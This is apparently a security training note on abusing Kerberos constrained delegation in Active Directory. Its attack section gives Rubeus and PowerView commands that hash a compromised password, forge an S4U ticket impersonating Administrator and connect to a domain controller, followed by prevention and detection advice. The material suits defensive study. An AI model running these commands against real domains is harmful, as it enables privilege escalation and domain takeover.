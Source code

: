## Description

Kerberos Delegation allows an application to access resources hosted on a different server without directly assigning access to the service account. For instance, a web server service account can be delegated to access SQL server service, enabling user access to the database content they are provisioned for without direct database access.

### Types of Delegation in Active Directory
1. **Unconstrained Delegation** - Most permissive, allows delegation to any service.
2. **Constrained Delegation** - Configures user properties to limit services they can delegate to.
3. **Resource-based Delegation** - Configured within the computer object for selective trust, less common in production.

**Security Consideration**: Any type of delegation can pose security risks and should be avoided unless necessary.

## Attack

The example focuses on abusing constrained delegation. When an account is trusted for delegation, it can request Kerberos tickets for other services.

### Example Steps:
1. **Identify Accounts with Constrained Delegation**
   ```powershell
   PS C:\\Users\\bob\\Downloads> Get-NetUser -TrustedToAuth

   Example Output:
   ```plaintext
   distinguishedname : CN=web service,CN=Users,DC=eagle,DC=local
   msds-allowedtodelegateto : {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local}
   useraccountcontrol : TRUSTED_TO_AUTH_FOR_DELEGATION
   ```

2. **Hash the Password** using Rubeus for the compromised account password `Slavi123`.
   ```powershell
   PS C:\\Users\\bob\\Downloads> .\\Rubeus.exe hash /password:Slavi123
   ```

   Example Output:
   ```plaintext
   rc4_hmac : FCDC65703DD2B0BD789977F1F3EEAECF
   ```

3. **Request Kerberos Ticket** for the `Administrator` account using Rubeus.
   ```powershell
   PS C:\\Users\\bob\\Downloads> .\\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
   ```

4. **Verify Ticket Injection** with `klist`.
   ```powershell
   PS C:\\Users\\bob\\Downloads> klist
   ```

5. **Connect to Domain Controller**.
   ```powershell
   PS C:\\Users\\bob\\Downloads> Enter-PSSession dc1
   ```

## Prevention

1. Set privileged users with the property **Account is sensitive and cannot be delegated**.
2. Add privileged users to the **Protected Users** group, which applies enhanced security against delegation.

**Password Security**: Use cryptographically secure passwords to avoid Kerberoasting attacks.

## Detection

- Correlate users' behavior
- Monitor events with ID 4624 (successful logon)
- Check Transited Services attribute in event logs for S4U logon process
